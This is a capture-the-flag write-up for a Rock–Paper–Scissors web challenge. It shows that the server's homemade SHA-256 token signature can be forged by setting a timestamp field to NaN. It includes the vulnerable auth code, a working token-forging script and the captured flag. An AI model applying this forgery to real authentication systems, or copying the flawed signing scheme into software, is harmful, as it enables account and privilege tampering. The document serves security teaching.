

# gunting_batu_paper

**Author:** tyutyu  
**Main:** 72.62.122.169:8002  
**Alternate:** 72.62.122.167:8002  

## Challenge Overview

In the **gunting_batu_paper** challenge, players are asked to play a Rock–Paper–Scissors game and reach **1,000,000 points** in order to claim the flag.

However:

- Every loss resets the score back to **0**
- With a **1/3 probability of losing** each round, reaching one million points by brute force is statistically unrealistic

This strongly suggests that the intended solution is **not grinding**, but instead abusing a **backend logic flaw**.

---

## Recon & Source Code Review

From the backend source code (Flask) **auth.py**, authentication relies on a **custom token** mechanism.

```py
import hashlib
import json
import os

SECRET = int.from_bytes(os.urandom(128), "big")

def hash_data(data):
    return hashlib.sha256(data.encode()).hexdigest()

def create_token(userinfo):
    salted_secret = SECRET + userinfo["timestamp_login"]
    data = json.dumps(userinfo)
    signature = hash_data(f"{data}:{salted_secret}")
    return data.encode().hex() + "." + signature

def decode_token(token):
    if not token:
        return None, "token tidak valid"
    
    try:
        parts = token.split(".")
        if len(parts) != 2:
            return None, "format token salah"
        
        datahex, signature = parts
        data = bytes.fromhex(datahex).decode()
        userinfo = json.loads(data)
        
        salted_secret = SECRET + userinfo["timestamp_login"]
        expected_signature = hash_data(f"{data}:{salted_secret}")
        
        if expected_signature != signature:
            return None, "signature tidak cocok"
        
        return userinfo, None
    except Exception as e:
        return None, f"error decode token: {str(e)}"
```

The token contains the following fields:

```json
{
  "name": "...",
  "timestamp_login": ...,
  "score": ...
}
```

The server verifies this token using a `decode_token()` function.

### Python NaN Behavior

Python has a special floating-point value called **NaN (Not a Number)**, which has some interesting properties:

```py
>>> import math
>>> 12345 + math.nan
nan
```

Important observations:

- `json.dumps()` **allows NaN by default**
- `json.loads()` will deserialize NaN back into a `float('nan')`
- Any arithmetic operation involving NaN results in NaN

This leads to a critical logic flaw:

If we set:

```py
timestamp_login = NaN
```

Then internally:

```py
salted_secret = SECRET + timestamp_login  # => NaN
```

At this point, the value of `SECRET` becomes irrelevant, because **anything added to NaN results in NaN**.

---

## Exploitation

We can locally replicate the backend token generation logic and craft a **valid token** with:

- `timestamp_login = NaN`
- `score = 1_000_000`

### Token Generation Script

```py
import json, hashlib, math

userinfo = {
    "name": "KuatHarimau5496",
    "timestamp_login": math.nan,
    "score": 1000000
}

data = json.dumps(userinfo)
salted_secret = math.nan
signature = hashlib.sha256(f"{data}:{salted_secret}".encode()).hexdigest()

token = data.encode().hex() + "." + signature
print(token)
```

This token successfully bypasses server-side validation.

---

## Flag Retrieval

After generating the token, we simply send it to the `/claim_flag` endpoint.



Since the backend trusts the decoded token and sees a score of **1,000,000**, the flag is immediately returned.

---

## Flag

```
NETCOMP{St3CU_st3Cu_povmkgwbilek}
```

---